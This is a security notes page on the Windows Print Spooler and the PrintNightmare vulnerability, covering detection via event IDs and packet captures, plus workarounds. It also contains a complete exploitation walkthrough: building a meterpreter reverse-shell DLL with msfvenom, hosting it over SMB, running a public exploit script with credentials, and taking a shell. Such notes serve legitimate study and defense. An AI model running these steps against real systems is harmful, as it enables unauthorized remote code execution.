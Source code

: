 ```yaml
---
title: Windows Print Spooler Service
description: A service that is running on each computer that participates in the Print Services system. It uses any port between 49152 and 65535. It may be vulnerable to the PrintNightmare (CVE-2021-1675 / CVE-2021-34527).
tags:
    - Printer
    - Windows
refs:
    - https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527
    - https://tryhackme.com/room/printnightmarehpzqlp8
date: 2024-05-29
draft: false
---
```


## Investigation

```powershell
# Check if the Print Spooler service is running
Get-Service -Name Spooler
```

<br />

## Detection

### Services

1. Open Services.
2. We can find the Print Spooler on the Right Pane.
3. Double-click on it and see the details.

### Malicious DLL Location

```txt
C:\Windows\System32\spool\drivers\x64\3\
```

### Event Viewer

Open Event Viewer, and find event logs in the following directory in the left pane.  
If you want to filter by Event ID, use **"Filter Current Log"** in the right pane.

- Application and Services Logs/Microsoft/Windows/PrintService/Admin (Event ID: 808)
- Application and Services Logs/Microsoft/Windows/PrintService/Operational (Event ID: 316, 811)
- Application and Services Logs/Microsoft/Windows/SMBClient/Security (Event ID: 31017)
- Application and Services Logs/Microsoft/Windows/Sysmon/Operational (Event ID: 3, 11, 23, 26)
- Windows Logs/System (Event ID: 7031)

### Packet Analysis (Wireshark)

Open .pcap file with Wireshark.

Filter packets with **"smb"** or **"smb2"**.

<br />

## PrintNightmare

This is security vulnerability to remote code execution in print spooler service.  
It requires authentication (username/password).

### 1. Check If RPC Endpoints Exist

```sh
impacket-rpcdump @<target-ip> | egrep 'MS-RPRN|MS-PAR'
# Protocol: [MS-RPRN]: Print System Remote Protocol 
# Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol
```

If `MS-RPRN` and `MS-PAR` endpoints are found, try the following steps.

### 2. Create & Host Malicious DLL

We create a malicious DLL for reverse shell.

```sh
mkdir share
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<local-ip> LPORT=<local-port> -f dll -o ./share/malicious.dll
```

Then host it with SMB server in local machine.

```sh
impacket-smbserver share ./share/  -smb2support
```

### 3. Start Local Listener

For receiving incoming connection, we need to prepare a listener.

```sh
msfconsole

msf > use exploit/multi/handler
msf > set payload windows/x64/meterpreter/reverse_tcp
msf > set lhost <local-ip>
msf > set lport <local-port>

msf > run -j

# Started reverse tcp

msf > jobs
```

### 4. Run Exploit

```sh
git clone https://github.com/cube0x0/CVE-2021-1675
cd CVE-2021-1675
python3 CVE-2021-1675.py example.local/<username>:<password>@<remote-ip> '\\<local-ip>\share\malicious.dll'
```

Now we should get a target shell in msfconsole.

### 5. Interact with Target System

Enter the target system via msfconsole.

```sh
msf> sessions
msf> sessions -i <session-id>
meterpreter> shell

C:\Windows\system32> whoami
```

<br />

## Workarounds

```powershell
# Disable the Print Spooler service
Stop-Service -Name Spooler -Force
Set-Service -Name Spooler -StartupType Disabled
```